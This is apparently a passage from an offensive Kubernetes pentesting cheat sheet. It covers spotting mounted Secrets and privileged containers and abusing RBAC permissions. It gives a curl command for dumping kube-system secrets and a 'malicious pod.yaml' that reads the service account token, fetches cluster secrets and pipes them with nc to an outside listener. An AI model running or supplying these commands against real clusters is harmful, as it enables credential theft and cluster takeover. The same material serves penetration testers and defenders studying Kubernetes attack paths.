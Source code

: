 From a container perspective, Kubernetes Secrets and ConfigMaps are identical. Both can be loaded into environment variables or mounted as volumes. It's not possible to determine if an environment variable was loaded from a Secret/ConfigMap, so each environment variable will need to be manually inspected. When mounted as a volume, Secrets/ConfigMaps are always mounted as read-only tmpfs filesystems. You can quickly find these with `grep -F "tmpfs ro" /etc/mtab`.

True Kubernetes Volumes are typically used as shared storage or for persistent storage across restarts. These are typically mounted as ext4 filesystems and can be identified with `grep -wF "ext4" /etc/mtab`.

### Privileged Containers

Kubernetes supports a wide range of [security contexts](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/) for container and pod execution. The most important of these is the "privileged" [security policy](https://kubernetes.io/docs/concepts/policy/pod-security-policy/) which makes the host node's devices available under the container's `/dev` directory. This means having access to the host's Docker socket file (allowing arbitrary container actions) in addition to the host's root disks (which can be used to escape the container entirely).

While there is no official way to check for privileged mode from *within* a container, checking if `/dev/kmsg` exists will usually suffice.

## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```